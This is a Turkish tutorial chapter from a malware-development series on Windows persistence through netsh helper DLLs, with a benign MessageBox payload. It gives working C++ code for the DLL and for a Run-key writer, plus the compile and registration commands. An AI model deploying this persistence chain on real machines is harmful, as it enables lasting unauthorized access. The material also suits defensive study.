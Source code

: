 \newpage
\subsection{72. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 6. Windows netsh yardımcı DLL'i. Basit C++ örneği.}

![pers](./images/56/2022-05-29_15-24_1.png){width="80%"}    

Bu bölüm, Windows kötü amaçlı yazılım kalıcılık teknikleri ve hileleri üzerine yazılmış bir dizi makalenin bir sonraki parçasıdır.    

Bugün, kendi araştırmalarım sonucunda keşfettiğim bir başka kalıcılık tekniği olan Netsh Helper DLL hakkında yazacağım.   

### netsh

**Netsh**, Windows yöneticilerinin ana makine tabanlı Windows güvenlik duvarını değiştirmek ve ağ yapılandırma görevlerini gerçekleştirmek için kullanabileceği bir Windows yardımcı programıdır. Netsh’in işlevselliği, DLL dosyalarıaracılığıyla genişletilebilir.    

Bu özellik, kırmızı takım operatörlerinin keyfi DLL'leri yükleyerek kod yürütme gerçekleştirmesine ve dolayısıyla bu aracı kullanarak kalıcılık sağlamasına olanak tanır.    
Ancak, bu tekniğin uygulanabilmesi için yerel yönetici ayrıcalıklarıgereklidir.    

### pratik örnek

Şimdi, pratik bir örnek üzerinden ilerleyelim. Öncelikle kötü amaçlı bir DLL oluşturalım:     

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Şimdi derleyelim:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/56/2022-05-29_15-12.png){width="80%"}    

Ve bu kötü amaçlı DLL, hedef kurbanın makinesine aktarılır.    

Netsh, işletim sisteminin diğer bileşenleriyle dinamik bağlantı kitaplığı (DLL) dosyaları aracılığıyla etkileşime girer.Her Netsh yardımcı DLL'si, kapsamlı bir işlev kümesi sunar.Netsh'in işlevselliği, DLL dosyaları kullanılarak genişletilebilir ve bu da saldırganların kötü amaçlı kodlarını yürütmelerine olanak tanır:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_15-20.png){width="80%"}    

Ardından, `add helper` komutu kullanılarak DLL, `netsh` yardımcı programına kaydedilebilir:     

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](./images/56/2022-05-29_15-23.png){width="80%"}    

![pers](./images/56/2022-05-29_15-24.png){width="80%"}    

Her şey mükemmel çalıştı!    

Ancak, `netsh` varsayılan olarak otomatik başlatılacak şekilde yapılandırılmamıştır.
Kalıcılık, Windows başlangıcında uygulamayı çalıştıran bir kayıt defteri anahtarı oluşturarak sağlanabilir.
Bu işlem aşağıdaki komut dosyasıyla hemen gerçekleştirilebilir:   

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Gördüğünüz gibi, bu yöntem [kayıt defteri çalıştırma anahtarları (run keys)](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) aracılığıyla kalıcılık sağladığımız önceki yazımdaki betiğe benziyor.    

Kayıt defteri çalıştırma anahtarlarını kontrol etmek için aşağıdaki komutu çalıştırabilirsiniz:   

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

![pers](./images/56/2022-05-29_15-18.png){width="80%"}    

Şunu derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/56/2022-05-29_15-14.png){width="80%"}    

ve kurbanın makinesinde çalıştıralım:     

```powershell
.\pers.exe
```

![pers](./images/56/2022-05-29_15-21.png){width="80%"}    

Bu komut çalıştırıldığında, aşağıdaki kayıt defteri anahtarı oluşturulur:         

![pers](./images/56/2022-05-29_15-25.png){width="80%"}    

Ancak bir husus var. PoC'nin mantığının, payload yürütülürken netsh'in hala kullanılabilmesini sağlamak için yeni bir iş parçacığı oluşturacak şekilde güncellenmesi gerekir. Ancak, netsh sona erdiğinde, kötü niyetli mantığınız da sona erer.     

Şimdi deneyelim. Yeni bir DLL oluşturun (`evil2.cpp`):    

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Derleyelim:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](./images/56/2022-05-29_16-21.png){width="80%"}    

ve adımları tekrar çalıştırın:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](./images/56/2022-05-29_16-23.png){width="80%"}    

Gördüğünüz gibi, her şey yolunda, `netsh` hala kullanılabilir. Ve kayıt defteri anahtarını doğruluk açısından kontrol edebiliriz:     

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_16-23_1.png){width="80%"}    

Bu tür bir saldırı, sistem özelliklerinin istismarına dayandığı için önleyici kontrollerle kolayca engellenemez.   

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[github'taki kaynak kod](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
